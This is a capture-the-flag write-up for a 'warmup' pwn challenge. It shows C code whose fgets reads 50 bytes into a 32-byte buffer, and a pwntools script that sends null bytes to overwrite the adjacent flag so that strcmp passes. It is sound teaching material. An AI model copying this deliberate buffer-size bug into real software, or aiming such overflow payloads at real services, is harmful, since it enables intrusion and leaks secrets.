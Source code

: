 # warmup
category: pwn | 316 points | 17 solves | author: main

## Description
Just a warmup. `nc challs.sieberrsec.tech 3476`

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

N.B. please do not try to bruteforce the flag. Attempts at doing so will be taken as an attack on server infrastructure, and will leave you liable for disqualification.

## Solution
This is a chall I didn't originally manage to get. 

```c 
    char input[32];
    char flag[32];
```
the input is declared as 32 bytes, and the flag is declared immediately after. 

the second (free) hint is a link to <https://en.wikipedia.org/wiki/Null-terminated_string>.

> A common bug was to not allocate the additional space for the NUL, so it was written over adjacent memory

The length of the `input` buffer is 32 bytes, but the program reads `0x32` or 50 bytes. So you can overwrite the flag after sending 32 bytes. 

the program also uses `strcmp()`. 
> strcmp() checks for the occurrence of NULL character in string, so that it will termination the function. ([source](https://www.quora.com/Does-STRCMP-check-for-NULL))

The idea is 
```
| input (32 bytes) | flag (32 bytes) |

sending NULL + 31 bytes + NULL

| input (NULL + 31 bytes) | flag (NULL + 31) | 

strcmp() will only read until NULL, and not the rest of the buffer.
```

a code like this would work 
```python
from pwn import *

context.log_level="debug"

p = remote("challs.sieberrsec.tech", 3476)

#a null byte is b"\x00"
p.sendline(b"\x00"*33)

p.interactive()
```
as long as you send between 33-48 NULL bytes. any shorter will not overwrite the flag and any further would overwrite too much. 

![warmup1.png](warmup1.png)

IRS{nU1L_t3rminat0r}

## comments
- Values are on the stack according to where they're declared
- However, sometimes compilers add some "buffer" in between values
- Thus, decompilers etc help
^^thanks sean
warmup chall with 17 solves very haha <br>
thanks sean i understand now 
